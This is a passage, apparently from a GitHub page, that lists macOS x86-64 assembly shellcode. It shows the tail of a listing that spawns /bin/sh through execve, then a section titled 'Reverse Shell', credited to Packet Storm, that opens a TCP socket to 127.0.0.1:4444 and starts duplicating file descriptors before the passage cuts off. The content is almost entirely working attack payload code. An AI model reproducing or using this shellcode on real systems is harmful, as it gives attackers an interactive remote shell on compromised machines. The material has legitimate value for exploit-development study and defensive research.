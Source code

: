 ```armasm
    mov  al, 0x5a
    sub  sil, 1
    syscall
    test rsi, rsi
    jne  dup2

    ; execve("//bin/sh", 0, 0)
    push rsi
    mov  rdi, 0x68732f6e69622f2f
    push rdi
    push rsp
    pop  rdi
    mov  rax, r8
    mov  al, 0x3b
    syscall
```

#### Reverse Shell

Reverse shell from [https://packetstormsecurity.com/files/151727/macOS-127.0.0.1-4444-Reverse-Shell-Shellcode.html](https://packetstormsecurity.com/files/151727/macOS-127.0.0.1-4444-Reverse-Shell-Shellcode.html). Reverse shell to **127.0.0.1:4444**

```armasm
section .text
global _main
_main:
    ; socket(AF_INET4, SOCK_STREAM, IPPROTO_IP)
    xor  rdi, rdi
    mul  rdi
    mov  dil, 0x2
    xor  rsi, rsi
    mov  sil, 0x1
    mov  al, 0x2
    ror  rax, 0x28
    mov  r8, rax
    mov  al, 0x61
    syscall

    ; struct sockaddr_in {
    ;         __uint8_t       sin_len;
    ;         sa_family_t     sin_family;
    ;         in_port_t       sin_port;
    ;         struct  in_addr sin_addr;
    ;         char            sin_zero[8];
    ; };
    mov  rsi, 0xfeffff80a3eefdf0
    neg  rsi
    push rsi
    push rsp
    pop  rsi

    ; connect(sockid, &sockaddr, 16)
    mov  rdi, rax
    xor  dl, 0x10
    mov  rax, r8
    mov  al, 0x62
    syscall    

    xor rsi, rsi
    mov sil, 0x3

dup2:
    ; dup2(sockid, 2)
```